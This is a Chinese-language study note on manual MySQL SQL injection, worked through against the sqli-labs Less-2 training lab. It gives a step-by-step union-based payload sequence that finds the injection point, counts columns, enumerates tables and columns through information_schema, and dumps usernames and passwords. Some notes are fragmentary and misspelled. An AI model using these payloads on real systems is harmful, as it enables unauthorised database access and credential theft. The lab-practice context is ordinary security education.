 # SQL注入之MYSQL手工注入

本章节重点在于熟悉注入流程，以及注入原理。练习靶场为sqli-labs第二关数字型注入。


### sqli-labs数字型注入

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/a6c51cb8e8ec4a3b8840fa3c8e105f86.png)

在url中输入id值，执行查询sql语句。即可得到对应数据

less-2源码分析：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/d4245f8d3a7b423ebb96ddaa5f894fa8.png)


浏览器 进行数据提交  服务器  ：

```
get 提交  ：  url   数据长度 
     速度快  
	 用于： 
	
post 提交 ： 服务器    安全性   数据量 
```


### 注入流程

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/708c5f66672d462d8bffd38e68791f2f.png)




### 注入语句

```
尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  注入
		              ==  没有注入
		2.猜解列名数量 order by %20 空格
		字段 4个
	
		3.报错，判断回显点 union 
		4.信息收集 
		  数据库版本 version()
		  高版本：5.0  
			系统库： infromation 。。。
		  数据库名称：database（）	
		  低版本：5.0 
		5.使用对应SQL进行注入  
			数据库库名：security
		. 下一级  
		infromation_schema.tables 查找表名
		table_name
		查询serurity库下面 所有的表名 
	
		database（）
	
	
		= 前后 连到一起
		union select 1,group_concat(table_name),3 from information_schema.tables
		where table_schema=database()
	
		表： users
		如何查询表里面有那些字段？ 
		user 字符 转行 16进制
		union select 1,group_concat(column_name),3 from information_schema.columns
		where table_name=0x7573657273
	
		username  password  字段数据  
		select username,password from users
		0x3a  :
		union select 1,2,(select group_concat(username,0x3a,password)from users)
		      
```
